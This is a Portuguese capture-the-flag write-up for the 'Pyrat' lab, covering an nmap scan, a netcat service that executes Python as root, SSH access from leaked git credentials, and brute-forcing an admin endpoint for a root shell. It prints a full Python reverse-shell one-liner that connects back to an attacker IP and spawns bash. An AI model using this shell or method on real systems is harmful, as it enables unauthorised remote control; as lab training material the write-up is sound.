








# _**Pyrat CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Visitando o site, somos recebidos com a mensagem: _Try a more basic connection!_  
Pensando, foi testado para ver as requisições e retornos via <mark>Burpsuite</mark>, mas nada  
Então, tentamos uma conexão via _netcat_ e uma requisição GET, mas GET não é interpretado  
Lembrando da dica, tentamos ```print("PennTest GPT was here")``` e temos retorno  


Vamos testar mais alguns comandos como:
* import os; print(os.listdir("/"))
* import os; print(os.getlogin())

Aparentemente, estamos executando como _root_ e podemos listar diretórios  
Tentando verificar o usuário de _/home_, não temos permissão de acesso  
Vamos criar uma conexão shell reversa com o comando abaixo
> ```bash
> import socket,subprocess,os;s=socket.socket();s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")
> ```


Apesar desta reverse shell, ainda não temos permissão  
Vamos investigar os outros diretórios  
Procurando por pistas em _/tmp_, não temos nada  
Investigando em _/opt/dev_, temos um diretório com nome _.git_  
Procurando pelos arquivos, encontramos uma informação importante!  



Vamos tentar uma conexão SSH  
Conseguimos!

## _**Escalando privilégios**_
Para esta parte, precisei buscar ajuda  
Primeiro, vamos retornar para _/opt/dev_ e vamos digitar ```git show```  



Temos o que parece ser o código de conexão na porta 8000, uma _hash_ (sha-1) e algumas outras informações  
Além disso, vemos que ele está solicitando alguns dados específicos == 'algum endpoint'  
Em seguida, verifica se você fornece credenciais de administrador e, caso contrário, o shell é www-data  
Procurei um script para poder realizar _fuzzing_ na porta: [link do código](https://github.com/twhelan25/tryhackme-Pyratt-Writeup)  



É requisitado uma senha  
Novamente, executamos o segundo _script_ para obtermos a senha de _admin_  
Obtemos a senah rapidamente  
Agora podemos usar o _endpoint_ de administrador e a senha para obter um shell root  
Realizamos uma nova conexão ```netcat``` e digitamos ```admin```e a senha descoberta  
Após login, basta ir atrás das flags!  


